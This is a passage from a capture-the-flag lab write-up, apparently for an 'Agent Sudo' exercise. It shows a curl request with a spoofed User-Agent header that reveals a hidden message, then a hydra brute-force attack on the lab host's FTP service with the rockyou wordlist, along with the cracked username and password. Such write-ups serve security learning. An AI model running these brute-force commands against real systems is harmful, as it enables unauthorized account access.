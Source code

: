 ```bash
< Vary: Accept-Encoding
< Content-Length: 177
< Content-Type: text/html; charset=UTF-8
< 
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 

* Connection #0 to host 10.10.14.138 left intact
```
## It Look to complicate look at this way I use ```curl``` then the web url and ```-H``` for ````--header```, ```-L``` for ```location``` 

```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ curl http://10.10.14.138 -H "User-Agent: C"  -L  
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```
### Here is the msg that telling us That Our agent name is ```Chris``` and our password is weak, Maybe it talking about ftp password 

## 2. Let bruteforce Ftp
```bash
┌──(death㉿esther)-[~/Pictures/Screenshots]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.14.138 -t 40
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-07 12:07:50
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ftp://10.10.14.138:21/
[21][ftp] host: 10.10.14.138   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 14 active
```
### ftp password is ```crystal`` user ```chris```

